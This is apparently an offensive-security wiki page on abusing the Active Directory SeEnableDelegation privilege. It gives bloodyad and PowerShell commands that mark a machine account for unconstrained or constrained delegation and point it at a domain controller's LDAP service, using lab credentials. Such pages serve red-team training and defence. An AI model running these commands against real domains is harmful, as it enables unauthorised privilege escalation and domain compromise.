

---
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
  metadata:
    visible: true
  tags:
    visible: true
---

# SeEnableDelegation

The [`SeEnableDelegation`](https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-R2-and-2012/dn221977\(v=ws.11\)?redirectedfrom=MSDN) privilege can be used to enable computer and user accounts to be trusted for unconstrained and constrained delegation. By default, only privileges accounts have this right, such as EAs, DAs, and DnsAdmins.

## Unconstrained

Unconstrained delegation can be configured by setting the `TRUSTED_FOR_DELEGATION` flag to `true` in the `userAccountControl` attribute of the target account. The standard value for a [`WORKSTATION_TRUST_ACCOUNT`](https://learn.microsoft.com/en-us/troubleshoot/windows-server/active-directory/useraccountcontrol-manipulate-account-properties#list-of-property-flags) is 4096 and the [`TRUSTED_FOR_DELEGATION`](https://learn.microsoft.com/en-us/troubleshoot/windows-server/active-directory/useraccountcontrol-manipulate-account-properties#list-of-property-flags) flag's value is 524288:

<figure><figcaption></figcaption></figure>

Thus, the UAC needs to be set to 528384 (4096 + 524288):


```bash
# Set UD from a Linux host
bloodyad -u molly -p Pass123 -d mollysec.local -i 10.10.10.5 set object 'badPc$' userAccountControl -v 528384 --raw
```



```powershell
# Set UD from a Windows host
Get-ADComputer -Identity 'badPc' | Set-ADComputer -TrustedForDelegation $true
```


## Constrained

Constrained delegation can be configured by setting the `TRUSTED_TO_AUTH_FOR_DELEGATION` flag to `true` in the `userAccountControl` attribute of the target account:

<figure><figcaption></figcaption></figure>

Thus, the UAC needs to be set to 16781312 (4096 + 16777216) and we must also write the target SPN in the `msDS-AllowedToDelegateTo` attribute:


```bash
# Set CD from a Linux host
bloodyad -u molly -p Pass123 -d mollysec.local -i 10.10.10.5 set object 'badPc$' userAccountControl -v 16781312 --raw

# Set SPN
bloodyad -u molly -p Pass123 -d mollysec.local -i 10.10.10.5 set object 'badPc$' msDS-AllowedToDelegateTo -v 'ldap/dc01.mollysec.local'
```



```powershell
# Set CD from a Windows host
Get-ADComputer -Identity 'badPc' | Set-ADComputer -TrustedToAuthForDelegation $true

# Set SPN
Set-ADObject -Identity "CN=BADPC,CN=COMPUTERS,DC=MOLLYSEC,DC=LOCAL" -Add @{"msDS-AllowedToDelegateTo"="ldap/dc01.mollysec.local"}
```

